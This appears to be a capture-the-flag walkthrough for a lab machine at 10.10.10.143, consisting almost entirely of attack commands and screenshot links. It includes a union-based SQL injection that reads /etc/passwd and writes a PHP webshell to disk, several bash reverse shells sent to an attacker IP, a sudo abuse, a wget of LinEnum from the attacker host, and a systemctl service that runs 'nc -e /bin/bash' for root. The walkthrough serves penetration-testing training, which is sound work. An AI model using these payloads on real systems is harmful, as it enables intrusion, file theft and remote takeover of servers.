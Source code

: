 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum
PrivEsc - systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)


```
http://10.10.10.143/room.php?cod=2%20and%201=1
```
![image](https://github.com/regarmulia/HTB/assets/33616880/954aab73-ed1c-419c-8120-3785d666d6ad)

![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)

```
https://book.hacktricks.xyz/pentesting-web/sql-injection
http://10.10.10.143/room.php?cod=2%20and%20sleep(1)
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ddf2a7c4-21db-4f02-b720-c395f310f43d)

![image](https://github.com/regarmulia/HTB/assets/33616880/3d1f65d6-d527-4714-96fd-937e21ca143e)



![image](https://user-images.githubusercontent.com/33616880/231968678-abdd6033-6a96-45b6-bc8e-0fd5e45791de.png)
![image](https://user-images.githubusercontent.com/33616880/231968797-0152fad4-d673-488d-aff8-4cbd8d10910d.png)
![image](https://user-images.githubusercontent.com/33616880/231968997-2d0da6ba-012b-480d-83b6-8c185543e797.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 into outfile '/var/www/html/hacked.txt'
```
![image](https://user-images.githubusercontent.com/33616880/231969952-3829cca0-1e62-48ed-a680-8e597d111ff8.png)
![image](https://user-images.githubusercontent.com/33616880/231969969-fe7ccd80-1d5e-4185-9c24-377b58bbe4e1.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://user-images.githubusercontent.com/33616880/231971738-3210b286-20ab-471c-8c63-556e238f3523.png)
![image](https://user-images.githubusercontent.com/33616880/231971768-31d1b5c7-93bb-4b3a-8b4e-d648a22900ce.png)


```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.8/1234 0>&1"'
```
![image](https://user-images.githubusercontent.com/33616880/231972202-e13e19ba-e5cd-4ef9-8b24-ed13676f248b.png)
![image](https://user-images.githubusercontent.com/33616880/231972255-3fcdf22f-ef68-4a2a-87b3-c189d8936720.png)



```
sudo -l
```
![image](https://user-images.githubusercontent.com/33616880/231978294-ddc1284d-62b6-4669-ad17-5b0ec362a773.png)



```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
![image](https://user-images.githubusercontent.com/33616880/231977903-441bb61c-6dad-427e-9d5f-387558289cf6.png)
![image](https://user-images.githubusercontent.com/33616880/231977956-2ac3c680-de93-4e87-8b3c-91a432c7efa6.png)



```
find / -perm -4000 2>/dev/null
```
![image](https://user-images.githubusercontent.com/33616880/231979320-9e90787c-3b50-40e9-b92d-cd4009af4304.png)



```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



